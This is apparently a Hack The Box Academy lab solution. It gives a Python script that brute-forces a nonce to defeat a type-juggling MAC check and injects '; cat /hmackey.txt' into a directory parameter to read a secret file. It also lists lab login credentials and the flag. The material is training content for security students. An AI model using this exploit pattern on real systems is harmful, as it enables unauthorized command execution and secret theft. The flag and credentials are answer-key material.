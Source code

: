 Students are highly encouraged to perform the same source code analysis as in the section to discover the vulnerabilities. The web application suffers from the same command injection and type juggling vulnerabilities. To exploit the application and read the contents of the `/hmackey.txt` file, students can utilize the same Python script, however, it requires a valid session cookie.

Therefore, students need to sign in with the credentials `htb-stdnt:Academy_student!` and get the value of the `PHPSESSID` cookie:

![[HTB Solutions/CWEE/z. images/e3264001fafb7497689928d6ba159c74_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/10cc59bfe223844f4e796e742ea1127d_MD5.jpg]]

Subsequently, students need to utilize it in the script, in addition to making the injected command to be `cat /hmackey.txt` instead of `whoami`:

Code: python

```python
import requests

URL = "http://STMIP:STMPO/dir.php"
COOKIES = {"PHPSESSID": "gjddb55pmtb24pnp1njtf85kpk"}

DIR = "/home/htb-stdnt/; cat /hmackey.txt"
MAC = 0
MAX_NONCE = 20000

def prepare_params(nonce):
    return {
        "dir": DIR,
        "nonce": nonce,
        "mac": MAC
    }

def make_request(nonce):
    return requests.get(URL, cookies=COOKIES, params=prepare_params(nonce))

# main
for n in range(MAX_NONCE):
    r = make_request(n)

    if not "Error! Invalid MAC" in r.text:
        print("Found valid MAC:")
        print(r.url)
        break
```

After running the script, students will attain a URL with a valid MAC. When visiting it, students will find the flag `HTB{96364150ec4520c703ed4eeb5ce2893d}`:

Code: shell

```shell
python3 solver.py
```
